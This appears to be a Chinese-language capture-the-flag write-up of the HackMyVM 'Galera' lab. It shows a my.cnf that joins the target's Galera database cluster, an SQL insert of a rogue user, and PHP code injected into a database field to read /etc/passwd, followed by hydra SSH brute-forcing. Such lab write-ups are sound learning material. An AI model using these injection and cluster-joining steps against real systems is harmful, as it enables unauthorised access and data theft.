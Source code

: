 ```yaml
---
{"dg-publish":true,"permalink":"/思/hackvm&vulnyx 靶场/","tags":["靶场","hackmyvm"]}
---
```



# hackvm
##  Galera
[[思/hackvm Galera\|hackvm Galera]]
### 端口扫描
![image.png](https://s2.loli.net/2025/06/08/jqxkFzlLEiNypto.png)

### web 信息收集
主页是个登录界面
![image.png](https://s2.loli.net/2025/06/08/7vn6U4IzFEhqlVt.png)

首先先排除了爆破破解，第一感觉肯定没啥用。万能密码测试也没用。都是同个报错，没法 sql 注入

子目录扫描
![image.png](https://s2.loli.net/2025/06/08/6gpCGwR23Pra5T4.png)

有蛮多的 php
![image.png](https://s2.loli.net/2025/06/08/LZq6OaeGufVKP2X.png)

有 upload 的目录，但进去没有回显，应该是在别的地方上传

另外我们得知了 php 的版本是 PHP Version 8.2.28
![image.png](https://s2.loli.net/2025/06/08/MXL7fF5Ql9n4GxP.png)

### 无思路
看了 wp，发现要用到新的端口，galera，mysql 的一个插件
需要在 mysql 的 my. cnf 中配置 galera 的节点
```
[mysqld]
# 基础配置
binlog_format=ROW
default-storage-engine=InnoDB
innodb_autoinc_lock_mode=2
bind-address=0.0.0.0  # 允许远程访问（生产环境应限制IP）

# Galera 配置
wsrep_on=ON
wsrep_provider=/usr/lib/galera/libgalera_smm.so
wsrep_cluster_address="gcomm://192.168.56.105"被攻击者者
wsrep_node_address="192.168.56.104" 攻击者
wsrep_node_name="nodeX"
wsrep_sst_method=rsync

```

配置完之后，重启 mariadb。进入数据库，就能找到新的数据库 galeradb

![image.png](https://s2.loli.net/2025/06/08/AIpgdt4BfGjuDUC.png)

![image.png](https://s2.loli.net/2025/06/08/QBIXwlGydKV9oYF.png)

![image.png](https://s2.loli.net/2025/06/08/HAlw6v9FIo58ih4.png)

增加一个新用户
![image.png](https://s2.loli.net/2025/06/08/rK8UjpBNtY3nZJ7.png)

```
insert into users values(3,'tt','test@test.com','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');
```
![image.png](https://s2.loli.net/2025/06/08/jsg8Tf4HGAzd69p.png)

登录成功
![image.png](https://s2.loli.net/2025/06/08/JfP9cjQzgAp8ibd.png)

### 依旧无思路
看了 wp，需要在 mysql 中插入 php 执行代码
```
insert into users values(2,'tt','<?php phpinfo();?>','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');

insert into users values(23,'tt1','<?php echo include(''php://filter/convert.base64-encode/resource=/etc/passwd'');?>','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');
```

![image.png](https://s2.loli.net/2025/06/08/EHSqPuQkUzFMarI.png)


![image.png](https://s2.loli.net/2025/06/08/qW6VTG8Ff715EBy.png)

找到/etc/passwd 的 base 64 编码
![image.png](https://s2.loli.net/2025/06/08/DgftTaS8oZAXHbw.png)

找到一个 donjuandeaustria 用户，尝试进行密码爆破 ssh

#### hydra 爆破
![image.png](https://s2.loli.net/2025/06/08/bAuEM7vqJDVcTm6.png)

找到密码

#### 提权
![image.png](https://s2.loli.net/2025/06/08/ZUpiP7JQRIWhexN.png)

看了 wp

输入 w
w命令的核心功能是显示当前登录用户信息和系统负载状态
![image.png](https://s2.loli.net/2025/06/08/I8F7DNOorbJXMlm.png)

tty是 Linux 中终端设备的统称
`tty20` 表示用户 `root` 当前登录的是系统的​**​第 20 个虚拟终端（Virtual Console）**

在/dev 中找带 20 的
![image.png](https://s2.loli.net/2025/06/08/1impb7jUnV5YTJs.png)


![image.png](https://s2.loli.net/2025/06/08/psW7TDkKPFNfaAJ.png)

![image.png](https://s2.loli.net/2025/06/08/Vp6sDP5Bt9UxbTy.png)


![image.png](https://s2.loli.net/2025/06/08/Zd9Gs8Lv1BQSAXU.png)





